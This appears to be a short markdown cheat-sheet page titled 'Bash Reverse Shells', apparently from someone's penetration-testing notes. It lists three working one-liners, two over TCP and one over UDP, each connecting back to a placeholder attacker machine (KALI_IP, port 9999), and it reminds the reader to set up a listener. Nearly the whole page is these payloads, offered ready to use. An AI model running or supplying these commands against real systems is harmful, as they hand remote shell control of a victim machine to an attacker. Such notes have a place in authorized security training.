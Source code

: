 ```yaml
---
title: Bash Reverse Shells
description: 
draft: false
tags: 
date: 2024-10-18
---
```


## Bash TCP Reverse Shell
These TCP reverse shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a TCP Listener.

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
0<&196;exec 196<>/dev/tcp/KALI_IP/9999; sh <&196 >&196 2>&196
```
## Bash UDP Reverse Shell
The UDP shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a UDP Listener.

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```


